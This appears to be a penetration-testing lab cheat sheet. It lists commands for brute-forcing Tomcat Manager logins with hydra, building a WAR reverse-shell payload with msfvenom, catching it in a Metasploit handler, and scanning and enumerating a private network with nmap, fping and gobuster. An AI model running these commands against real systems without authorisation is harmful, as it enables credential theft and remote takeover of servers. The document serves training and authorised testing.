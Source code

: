 `hydra -L usernames.txt -P passwords.txt 172.16.64.101 http-get /manager/html`

### Msfvenom WAR payload with Metasploit Handler

To exploit an Apache Tomcat Manager application with a WAR executable using MSFvenom, use the following command.

`msfvenom -p java/meterpreter/reverse_tcp LHOST=172.16.64.10 LPORT=4444 -f war -o rshell.war`

Since this is a staged Meterpreter payload, we'll have to use Meterpreter's multi handler to catch the reverse shell. Run the following commands once you are in the msfconsole.
```
use exploit/multi/handler
set PAYLOAD java/meterpreter/reverse_tcp
set LHOST 172.16.64.10
set LPORT 4444
run
```

### Network Scanning

To map a network, we can run either two commands.

`fping -a -g 172.16.64.0/24 2>/dev/null`

`sudo nmap -sn 172.16.64.0/24`
- `-sn`: disables port scan

The advantage of the nmap scan over fping is that nmap will also send ARP requests.

### Service Enumeration

To analyze the services, their versions, OS detection, scan all ports, and save the file:

`sudo nmap -sC -sV -O -oN nmap/scan-results.txt 172.16.64.101`

- `-sC`: Run default scripts
- `-sV`: Port version detection
- `-O`: OS detection
- `-oN`: Save the scan results to a file

### Directory Enumeration

`gobuster dir -u http://172.16.64.101:8080 -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 100 -x "php,jsp"`
- `-u`: Target URL
- `-w`: Wordlist
- `-t`: Number of threads
- `-x`: Additional extensions to append to the words in the wordlist

### File Searching

#### Meterpreter

`search -f "*.txt"`
